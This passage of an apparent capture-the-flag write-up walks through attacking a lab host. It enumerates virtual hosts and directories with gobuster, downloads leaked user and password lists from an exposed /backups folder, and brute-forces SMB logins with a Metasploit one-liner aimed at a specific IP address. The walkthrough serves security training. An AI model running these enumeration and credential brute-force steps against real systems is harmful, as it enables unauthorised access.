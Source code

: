 ```md
Found: .mysql_history.cysec.local (Status: 400) [Size: 334]
Found: .listing.cysec.local (Status: 400) [Size: 334]      
Found: .passwd.cysec.local (Status: 400) [Size: 334]       
Found: .listings.cysec.local (Status: 400) [Size: 334]     
Found: .htpasswd.cysec.local (Status: 400) [Size: 334]     
Found: .htaccess.cysec.local (Status: 400) [Size: 334]     
Found: .perf.cysec.local (Status: 400) [Size: 334]         
Found: .sh_history.cysec.local (Status: 400) [Size: 334]   
Found: .profile.cysec.local (Status: 400) [Size: 334]      
Found: .rhosts.cysec.local (Status: 400) [Size: 334]       
Found: .ssh.cysec.local (Status: 400) [Size: 334]          
Found: .swf.cysec.local (Status: 400) [Size: 334]          
Found: .svn.cysec.local (Status: 400) [Size: 334]          
Found: .svn/entries.cysec.local (Status: 400) [Size: 334]  
Found: .web.cysec.local (Status: 400) [Size: 334]          
Found: .subversion.cysec.local (Status: 400) [Size: 334]   
Found: @.cysec.local (Status: 400) [Size: 334]             
Found: lost+found.cysec.local (Status: 400) [Size: 334]    
Found: secret.cysec.local (Status: 200) [Size: 13089]      
```

Other subdomains are not interested but secret.cysec.local seems interesting
we discover secret.cysec.local as vhost then we add it to /etc/hosts.

```sudo echo -n "54.234.92.201 secret.cysec.local" >> /etc/hosts```

Then Visit secret.cysec.local in browser and it give a page with title called CYSEC CTF.After a while looking at page and saw nothing.
Started to bruteforce for any interesting files or directories
```md
gobuster dir -u http://secret.cysec.local/ -w /usr/share/wordlists/dirb/common.txt -q
```
```md
/backups              (Status: 301) [Size: 157] [--> http://secret.cysec.local/backups/]
/css                  (Status: 301) [Size: 153] [--> http://secret.cysec.local/css/]    
/fonts                (Status: 301) [Size: 155] [--> http://secret.cysec.local/fonts/]  
/icon                 (Status: 301) [Size: 154] [--> http://secret.cysec.local/icon/]   
/images               (Status: 301) [Size: 156] [--> http://secret.cysec.local/images/] 
/Images               (Status: 301) [Size: 156] [--> http://secret.cysec.local/Images/] 
/index.html           (Status: 200) [Size: 13089]                                       
/js                   (Status: 301) [Size: 152] [--> http://secret.cysec.local/js/]  
```

# port 445 enumeration again
From there we discover folder backups which has users and passwords

<img src='/assets/img/Keep_it_Simple_Stupid_CYSEC/creds.png' alt='creds'>

download files
```md
wget http://secret.cysec.local/backups/passwords.txt && wget http://secret.cysec.local/backups/users.txt
```
After that we can now bruteforce smb service to see if one of user have successful login and i just short it to one command liner msfconsole
```md
msfconsole -q -x 'use auxiliary/scanner/smb/smb_login;set RHOSTS 54.234.92.201;set RPORT 445;set USER_FILE ~/CYSEC/users.txt;set PASS_FILE ~/CYSEC/passwords.txt;set VERBOSE false;run'
```
```md
RHOSTS => 54.234.92.201
RPORT => 445
USER_FILE => ~/CYSEC/users.txt
PASS_FILE => ~/CYSEC/passwords.txt
VERBOSE => false
```